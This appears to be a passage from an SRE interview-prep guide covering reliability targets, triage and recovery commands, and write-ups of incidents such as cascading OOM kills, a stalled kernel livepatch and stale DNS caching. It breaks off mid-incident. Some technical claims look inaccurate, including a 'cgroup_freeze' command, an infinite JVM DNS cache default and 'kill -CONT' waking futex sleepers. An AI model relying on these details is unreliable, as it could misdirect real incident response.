







# Topic 11: Real-World SRE Incidents -- Cross-Cutting Incident Repository

> **Target Audience:** Senior SRE / Staff+ Cloud Engineers (10+ years experience)
> **Depth Level:** Principal Engineer interview preparation
> **Cross-references:** [Fundamentals](../00-fundamentals/fundamentals.md) | [Process Management](../01-process-management/process-management.md) | [CPU Scheduling](../02-cpu-scheduling/cpu-scheduling.md) | [Memory Management](../03-memory-management/memory-management.md) | [Filesystem & Storage](../04-filesystem-and-storage/filesystem-and-storage.md) | [LVM](../05-lvm/lvm.md) | [Networking](../06-networking/networking.md) | [Kernel Internals](../07-kernel-internals/kernel-internals.md) | [Performance & Debugging](../08-performance-and-debugging/performance-and-debugging.md) | [Security](../09-security/security.md)

---

## 1. Concept (Senior-Level Understanding)

### SRE Philosophy and Incident Management

Site Reliability Engineering treats operations as a software engineering problem. The central contract is this: reliability is a feature, measured quantitatively, and managed with the same discipline as any other engineering deliverable. When incidents occur, they are not failures of people -- they are failures of systems, processes, and automation that must be analyzed and remediated structurally.

The three pillars of SRE incident culture are:

1. **Quantitative reliability targets.** Every service defines Service Level Indicators (SLIs) that measure real user experience, sets Service Level Objectives (SLOs) as internal reliability targets, and commits to Service Level Agreements (SLAs) as contractual guarantees. The gap between 100% and the SLO is the error budget -- the quantified allowance for unreliability that governs the balance between feature velocity and reliability investment.

2. **Blameless post-mortem culture.** When an incident occurs, the investigation focuses on systemic factors: what monitoring failed, what automation was missing, what runbooks were incomplete. The question is never "who caused this?" but "what conditions allowed this to happen and what controls will prevent recurrence?" This is not about being soft -- it is about producing actionable improvements rather than fear-driven silence.

3. **Toil reduction as an engineering mandate.** Operational work that is manual, repetitive, automatable, tactical, and scales linearly with service size is classified as toil. SRE teams measure toil and engineer it away. Google's benchmark: SRE teams should spend no more than 50% of their time on toil; the remainder goes to engineering work that improves reliability at scale.

### SRE Incident Management Overview



---

## 2. Internal Working

### 2.1 Incident Response Lifecycle

An incident progresses through a well-defined lifecycle. The critical insight for senior engineers is that **mitigation is not resolution** -- restoring service takes priority over understanding root cause. You roll back first and analyze later.



### 2.2 SLI / SLO / SLA Framework

The reliability hierarchy operates on a strict dependency chain. SLIs feed SLOs, SLOs inform error budgets, error budgets drive operational decisions.



**Availability table every SRE must know:**

| SLO | Monthly Downtime | Annual Downtime | Common Use |
|---|---|---|---|
| 99% (two nines) | 7.3 hours | 3.65 days | Internal tools, batch jobs |
| 99.9% (three nines) | 43.8 minutes | 8.77 hours | Business applications |
| 99.95% | 21.9 minutes | 4.38 hours | External APIs, SaaS platforms |
| 99.99% (four nines) | 4.38 minutes | 52.6 minutes | Payment processing, auth |
| 99.999% (five nines) | 26.3 seconds | 5.26 minutes | Core infrastructure, DNS |

### 2.3 Escalation and Severity Framework

| Severity | Criteria | Response Time | Escalation | Example |
|---|---|---|---|---|
| **SEV1** | Service down for all users, data loss risk, security breach | Page immediately, 5-min ACK | Incident Commander + VP Eng | Database corruption, full outage |
| **SEV2** | Significant degradation, subset of users affected | Page immediately, 15-min ACK | Incident Commander | 50% error rate on checkout |
| **SEV3** | Minor degradation, workaround available | Ticket, respond within 4 hours | On-call engineer | Elevated latency on non-critical API |
| **SEV4** | Cosmetic issue, no user impact | Ticket, respond within 1 business day | Service owner | Dashboard rendering glitch |

---

## 3. Commands -- Incident Response Arsenal

### Immediate Triage (First 5 Minutes)

```bash
# System overview -- what is the machine doing RIGHT NOW
uptime                                    # Load average (1, 5, 15 min)
dmesg -T | tail -50                       # Recent kernel messages (OOM, hardware errors)
journalctl -p err --since "30 min ago"    # Recent error-level journal entries

# CPU -- is something burning CPU?
top -bn1 | head -20                       # Snapshot of top processes
mpstat -P ALL 1 3                         # Per-CPU utilization
pidstat -u 1 5                            # Per-process CPU over 5 seconds

# Memory -- are we OOM or thrashing?
free -h                                   # Memory and swap usage
vmstat 1 5                                # si/so columns = swap activity
cat /proc/meminfo | grep -E "MemFree|MemAvailable|SwapFree|Committed_AS"
slabtop -o | head -15                     # Kernel slab allocations

# Disk -- is I/O the bottleneck?
iostat -xz 1 3                            # Per-device I/O stats (await, %util)
df -h                                     # Filesystem usage (is anything full?)
df -i                                     # Inode usage (can be full even if bytes are free)
lsof +D /var/log | wc -l                  # Open files in /var/log

# Network -- are we dropping packets or saturating links?
ss -s                                     # Socket statistics summary
ss -tnp                                   # Active TCP connections with process names
ip -s link                                # Per-interface packet counts and errors
netstat -i                                # Interface error/drop counters
sar -n DEV 1 3                            # Network throughput per interface
```

### Deep Investigation Commands

```bash
# Process and cgroup analysis
cat /proc/<pid>/status                    # Process memory, state, capabilities
cat /proc/<pid>/cgroup                    # Which cgroup controls this process
systemd-cgtop                             # Live cgroup resource usage
cat /sys/fs/cgroup/memory/<group>/memory.stat  # Detailed memory stats for cgroup

# Trace system calls and signals
strace -fp <pid> -e trace=network -T      # Network syscalls with timing
strace -fp <pid> -e trace=file -T         # File access syscalls with timing
perf top                                  # Live kernel/user symbol profiling
perf record -g -p <pid> -- sleep 30       # Profile a process for 30 seconds
perf report                               # Analyze recorded profile

# Network deep dive
tcpdump -i eth0 -nn -c 100 port 53       # DNS traffic (packet loss? slow?)
tcpdump -i eth0 -nn -c 100 'tcp[tcpflags] & (tcp-rst) != 0'  # TCP resets
ss -tnp state time-wait | wc -l          # TIME_WAIT socket count
conntrack -L | wc -l                      # Connection tracking table size
ethtool -S eth0 | grep -i error          # NIC hardware error counters
ethtool -S eth0 | grep -i drop           # NIC hardware drop counters

# Filesystem and storage
blktrace -d /dev/sda -o - | blkparse -i - | head -50  # Block I/O trace
xfs_info /mountpoint                      # XFS filesystem parameters
debugfs -R "stat <inode>" /dev/sda1       # Ext4 inode details
smartctl -a /dev/sda                      # SMART health data for disk

# Kernel and log analysis
ausearch -m avc -ts recent                # SELinux denials
ausearch -m ANOM_ABEND --success no       # Abnormal process terminations
journalctl -k --since "1 hour ago"        # Kernel messages last hour
cat /proc/buddyinfo                       # Memory fragmentation state
cat /var/log/mcelog 2>/dev/null           # Machine check exceptions (hardware)
```

### Recovery and Mitigation Commands

```bash
# Emergency memory relief
sync; echo 3 > /proc/sys/vm/drop_caches  # Drop page cache (non-destructive)
swapoff -a && swapon -a                   # Reset swap (if system is not critically low)

# Emergency process management
kill -STOP <pid>                          # Freeze a runaway process (investigate first)
kill -CONT <pid>                          # Resume it
renice +19 -p <pid>                       # Deprioritize CPU hog
ionice -c 3 -p <pid>                      # Idle I/O class for disk hog
cgroup_freeze <group>                     # Freeze an entire cgroup

# Network emergency
iptables -A INPUT -s <bad_ip> -j DROP     # Block offending source
tc qdisc add dev eth0 root tbf rate 100mbit burst 32kbit latency 400ms  # Rate limit
ip route flush cache                      # Flush routing cache after route changes

# Service management
systemctl restart <service>               # Restart a failed service
systemctl daemon-reload                   # Reload unit files after changes
journalctl -u <service> -f               # Follow service logs in real time
```

---

## 4. Debugging -- Unified Incident Triage Decision Tree

The following flowchart represents the first 15 minutes of any production incident. The goal is rapid classification to route the investigation to the correct subsystem.



---

## 5. Cross-Cutting Incidents

This section is the core of Topic 11. Each incident spans multiple Linux subsystems and represents the kind of multi-layered debugging expected of a principal-level SRE.

---

### Incident 1: Cascading OOM Across Microservices

**Subsystems:** Memory Management (Topic 03) + cgroups + Networking (Topic 06)

**Context:** A fleet of 200 Kubernetes pods running a Java-based order processing service. Each pod has a cgroup memory limit of 2 GiB. A downstream payment service experiences elevated latency, causing request queues to back up in the order service.

**Symptoms:**
- PagerDuty fires: error rate on `/api/orders` jumps from 0.1% to 45% over 12 minutes
- Kubernetes events show `OOMKilled` on 40+ pods in rapid succession
- Pods restart, immediately get flooded with retry traffic, and OOM again
- Cascading effect: upstream API gateway starts timing out, returning 502 to end users
- Monitoring shows memory usage per pod ramps from 800 MiB to 2 GiB in ~90 seconds

**Investigation:**

```bash
# On a surviving pod (exec into container)
kubectl exec -it order-svc-pod -- bash

# Check kernel OOM killer logs
dmesg -T | grep -i "out of memory"
# [Mar 15 14:23:01] Out of memory: Killed process 1 (java) total-vm:4194304kB, anon-rss:2097152kB

# Check cgroup memory stats
cat /sys/fs/cgroup/memory/memory.stat | grep -E "rss|cache|swap|pgfault"
cat /sys/fs/cgroup/memory/memory.limit_in_bytes   # 2147483648 (2 GiB)
cat /sys/fs/cgroup/memory/memory.usage_in_bytes    # At limit

# Check for connection pileup
ss -tnp | grep :8080 | wc -l             # 3,847 connections (normal: ~200)
ss -tnp state established | grep :8080 | grep -c "payment-svc"  # All stuck

# Check Java heap
jmap -heap <pid>                          # Heap nearing -Xmx
jstat -gc <pid> 1000 5                    # Full GC running continuously
```



**Root Cause:** The payment service latency spike caused HTTP connections to the payment service to hold open for 30 seconds (the client timeout) instead of 50ms. Each pending request held approximately 5 MiB of request context, response buffers, and serialized objects on the Java heap. With 400 concurrent requests per pod, memory usage hit the cgroup limit: `400 * 5 MiB = 2000 MiB`, which combined with baseline heap and metaspace usage exceeded the 2 GiB cgroup limit. The OOM killer terminated the JVM, and Kubernetes restarted the pod into a retry storm.

**Fix (Immediate):**
1. Reduced the payment service client timeout from 30s to 2s
2. Enabled circuit breaker on the payment client (Hystrix/Resilience4j) with a 50% error threshold
3. Configured Kubernetes `PodDisruptionBudget` to prevent more than 25% of pods from restarting simultaneously
4. Applied a rate limiter on the API gateway to shed excess traffic

**Prevention:**
- Set JVM `-Xmx` to 75% of cgroup memory limit (leaves room for off-heap, metaspace, thread stacks)
- Configure circuit breakers on every downstream dependency with appropriate thresholds
- Implement bulkhead patterns: separate thread pools for critical vs. non-critical downstream calls
- Add memory-based pod autoscaling (HPA with custom memory metrics)
- Run regular load tests that simulate downstream latency injection

---

### Incident 2: Kernel Live-Patch Failure During Rolling Upgrade

**Subsystems:** Kernel Internals (Topic 07) + Process Management (Topic 01)

**Context:** A fleet of 500 RHEL 8 bare-metal servers running a distributed database. The SRE team uses `kpatch` for zero-downtime kernel patching. A security CVE requires an urgent kernel patch. The rolling upgrade is automated via Ansible, targeting 10% of hosts at a time.

**Symptoms:**
- First batch (50 hosts) patches successfully; `kpatch list` shows active patch
- Second batch (hosts 51-100): 12 hosts hang during patch application; `kpatch load` returns `EINVAL`
- The hung hosts show increased load average (from 2 to 180+), but no OOM
- Database replication lag spikes on the affected hosts
- Some hosts become unresponsive to SSH within 10 minutes of the failed patch attempt

**Investigation:**

```bash
# On an affected host (via IPMI/BMC serial console since SSH is unresponsive)
dmesg -T | grep -i "livepatch\|kpatch"
# [Mar 15 02:15:23] livepatch: transition stalled for task java (pid 4521)
# [Mar 15 02:15:23] livepatch: transition: task java is sleeping on function X

# Check patch state
cat /sys/kernel/livepatch/kpatch_cve2025xxxx/transition
# 1  (stuck in transition)

# Check what processes are blocking the transition
cat /proc/4521/stack
# [<0>] futex_wait_queue_me+0x123/0x180
# [<0>] do_futex+0x345/0xab0
# [<0>] __x64_sys_futex+0x147/0x1e0

# The process is in a long-sleep futex wait -- livepatch cannot transition it
# until it wakes up and hits a safe patching point

# Load average explained by stuck I/O
cat /proc/loadavg                         # 182.34 178.12 95.23 312/400 8823
iostat -xz 1 3                            # %util 100% on NVMe -- database I/O stalled
```

**Root Cause:** The livepatch mechanism (kernel live patching) requires every running task to transition to the new patched function. Tasks that are in long-lived kernel sleeps (such as futex waits used by the JVM's `park()` mechanism) cannot transition until they wake up and pass through a patching-safe point. On 12 hosts, critical database threads were in extended futex sleeps (waiting on replication locks), preventing the livepatch transition from completing. The partially-transitioned state caused inconsistency in kernel function pointers, leading to I/O stalls as the block layer hit patched/unpatched code path conflicts.

**Fix (Immediate):**
1. Forced a signal to the blocked processes to wake them from futex sleep: `kill -CONT <pid>` for each stuck process
2. For hosts that remained stuck, reverted the livepatch: `echo 0 > /sys/kernel/livepatch/kpatch_cve2025xxxx/enabled`
3. Rebooted the 12 affected hosts into the new kernel version instead of live-patching
4. Paused the rolling upgrade for the remaining batches

**Prevention:**
- Pre-check for long-running kernel sleeps before applying livepatches: scan `/proc/*/stack` for futex/sleep states
- Implement a livepatch timeout: if transition does not complete within 5 minutes, automatically revert and schedule a maintenance window reboot
- Reduce rolling batch size from 10% to 2% for kernel-level changes
- Never livepatch hosts running stateful workloads with replication dependencies; schedule reboot windows instead
- Add canary phase: patch 1 host, validate for 30 minutes, then proceed

---

### Incident 3: DNS TTL Caching Causing Stale Endpoints After Failover

**Subsystems:** Networking (Topic 06) + DNS

**Context:** A multi-region active-passive deployment. The primary region (us-east-1) runs behind a DNS-based failover with a 300-second TTL. The primary region experiences a complete outage. DNS failover changes the A record to point to the secondary region (us-west-2).

**Symptoms:**
- DNS failover triggers correctly; Route 53 health checks detect failure within 30 seconds
- Route 53 updates the A record to the secondary region IP
- Approximately 40% of traffic continues hitting the dead primary region for 15+ minutes after failover
- Users report intermittent failures: some requests work (hitting secondary), some fail (hitting dead primary)
- Internal microservices show even longer stale resolution, with some services sending traffic to the old IP for 45+ minutes

**Investigation:**

```bash
# Check what clients are resolving
dig +short api.example.com @8.8.8.8       # Returns new IP (secondary region) -- correct
dig +short api.example.com @local-resolver  # Returns OLD IP (primary region) -- STALE

# Check the local resolver cache
# On a service host using systemd-resolved:
resolvectl query api.example.com
# api.example.com: 10.1.1.100 (old primary IP)
# -- cached for another 287s

# Check application-level DNS caching
# Java JVM caches DNS indefinitely by default!
grep networkaddress.cache.ttl /etc/java/java.security
# networkaddress.cache.ttl=-1  <-- INFINITE CACHE

# nscd (Name Service Cache Daemon) also caching
nscd -g | grep "positive-time-to-live"
# positive-time-to-live: 3600  <-- 1 HOUR cache

# Check resolver configuration
cat /etc/resolv.conf
# nameserver 10.0.0.2 (local caching resolver)
# options ndots:5  <-- also causing extra lookups
```

**Root Cause:** Three layers of DNS caching conspired to defeat the failover:

1. **Route 53 TTL of 300s** was respected by recursive resolvers, but some resolvers (corporate proxies, ISP resolvers) honor their own minimum TTL, sometimes 10-15 minutes
2. **JVM DNS caching** was set to infinite (`networkaddress.cache.ttl=-1`) in the default `java.security` configuration -- a well-known Java gotcha
3. **nscd** was running on the service hosts with a 1-hour positive cache TTL, ignoring the DNS TTL entirely

**Fix (Immediate):**
1. Flushed nscd cache on all service hosts: `nscd -i hosts`
2. Restarted affected Java services to flush JVM DNS cache
3. Set JVM property: `-Dsun.net.inetaddr.ttl=30` for 30-second TTL
4. Reduced Route 53 TTL to 60 seconds for the failover record

**Prevention:**
- Set `networkaddress.cache.ttl=30` in `$JAVA_HOME/conf/security/java.security` across the fleet
- Disable nscd entirely (modern systems with `systemd-resolved` do not need it) or set `positive-time-to-live` to match DNS TTL
- Use connection-level failover (client-side load balancer with health checks) rather than relying solely on DNS failover
- For critical failover paths, use TTL of 30-60 seconds maximum
- Test failover quarterly with actual DNS record changes, measuring time-to-full-drain from old endpoints

---

### Incident 4: Thundering Herd on Service Restart Exhausting CPU

**Subsystems:** CPU Scheduling (Topic 02) + Networking (Topic 06)

**Context:** A stateless API service running 50 instances behind an HAProxy load balancer. After a config change deployment, all 50 instances are restarted simultaneously via `systemctl restart api-service` executed by Ansible in parallel.

**Symptoms:**
- All 50 instances restart within a 3-second window
- CPU utilization on every host spikes to 100% for 4 minutes
- Load average jumps to 300+ across the fleet
- API latency goes from 15ms to 12 seconds; error rate hits 80%
- Auto-scaler detects unhealthy instances, terminates them, launches new ones -- which also join the thundering herd



**Root Cause:** The simultaneous restart of all instances created a thundering herd across three dimensions: (1) JVM startup CPU (class loading, JIT compilation) consumed all CPU on every host; (2) cold caches on all instances meant every request was a cache miss hitting the database; (3) the auto-scaler's health check failures triggered a replace-and-restart cycle that amplified the problem.

**Fix (Immediate):**
